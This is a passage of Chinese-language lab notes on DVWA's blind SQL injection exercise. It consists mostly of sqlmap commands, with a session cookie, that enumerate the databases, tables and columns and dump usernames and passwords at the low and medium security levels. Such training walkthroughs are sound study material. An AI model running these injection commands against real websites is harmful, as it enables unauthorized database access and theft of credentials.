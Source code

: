 

库：

```
python sqlmap.py -u "http://192.168.10.129:3000/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie="PHPSESSID=c5emugcincc74avtcvj0f65mns; security=low" --dbs
```



表：

```
python sqlmap.py -u "http://192.168.10.129:3000/vulnerabilities/sqli_blind/?id=1&Submit=Submit#"  --cookie="PHPSESSID=c5emugcincc74avtcvj0f65mns; security=low" -D dvwa --tables
```



列：

```
python sqlmap.py -u "http://192.168.10.129:3000/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie="PHPSESSID=c5emugcincc74avtcvj0f65mns; security=low" -D dvwa -T users --columns
```



用户字段：

```
python sqlmap.py -u "http://192.168.10.129:3000/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie="PHPSESSID=c5emugcincc74avtcvj0f65mns; security=low" -D dvwa -T users -C user --dump
```



密码字段：

```
python sqlmap.py -u "http://192.168.10.129:3000/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie="PHPSESSID=c5emugcincc74avtcvj0f65mns; security=low" -D dvwa -T users -C password --dump
```

由于是盲注，所以最后的答案应该是一位一位试出来的

![image-20250219151252665](../../_media/image-20250219151252665.png)



#### Security Medium

```
python sqlmap.py -u "http://192.168.10.129:3000/vulnerabilities/sqli_blind/" --data "id=1&Submit=Submit"  --cookie="PHPSESSID=c5emugcincc74avtcvj0f65mns; security=medium" 
```
